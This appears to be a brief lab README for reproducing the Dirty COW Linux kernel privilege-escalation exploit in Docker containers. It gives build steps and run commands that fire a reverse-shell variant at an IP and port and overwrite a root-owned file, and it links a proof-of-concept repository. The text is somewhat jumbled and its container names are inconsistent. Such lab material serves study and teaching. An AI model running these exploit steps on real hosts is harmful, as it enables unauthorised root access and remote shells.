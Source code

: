 # Dirty COW attack

# Build the container image
docker compose build
# docker-compose build

# Start the container
docker compose run d-cow bash

# Next
cd /dirtycow
make

./0xdeadbeef IP:port
./0xdeadbeef 172.18.0.2:5678


https://github.com/scotty-c/dirty-cow-poc
docker compose build d-c0w
docker compose up d-c0w
docker exec -it -u eureka d-c0w bash
./dirtyc0w root-data-file hacker-was-here